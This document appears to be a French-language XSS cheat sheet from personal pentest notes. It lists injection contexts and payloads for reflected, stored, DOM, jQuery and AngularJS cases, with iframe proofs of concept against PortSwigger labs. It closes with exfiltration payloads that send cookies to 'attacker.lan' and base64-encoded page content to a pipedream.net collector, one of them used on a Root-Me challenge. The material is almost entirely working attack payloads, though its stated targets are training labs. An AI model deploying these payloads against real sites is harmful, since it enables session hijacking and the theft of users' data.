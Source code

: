# XSS

1. Use SecList https://github.com/danielmiessler/SecLists/tree/master/Fuzzing to find more payload
2. Burp ressources: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
3. Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit j'usqu'a avoir des réponses 200 avec chars non-encodés
4. regarder dans le debugger du navigateur: "inspect element" et onglet "source"

## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, Il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```js
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

# types

## Reflected + Stored

```js
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(document.domain)">Click Me</a>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

éxecutera: 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

## DOM

```js
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
```

### in xhr

```js
\"-alert(1)}//
```

## POC depuis un iframe

```js
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```js
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## REX

exemple paload pour vol de cookie (DOM based): 

```
test';document.location="https://attacker.lan?c="+document.cookie;'
```


Online et vol du contenu la page web:

```
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```
ou
```
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```

(payload rootme: http://challenge01.root-me.org:58008/page?user=<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">  )


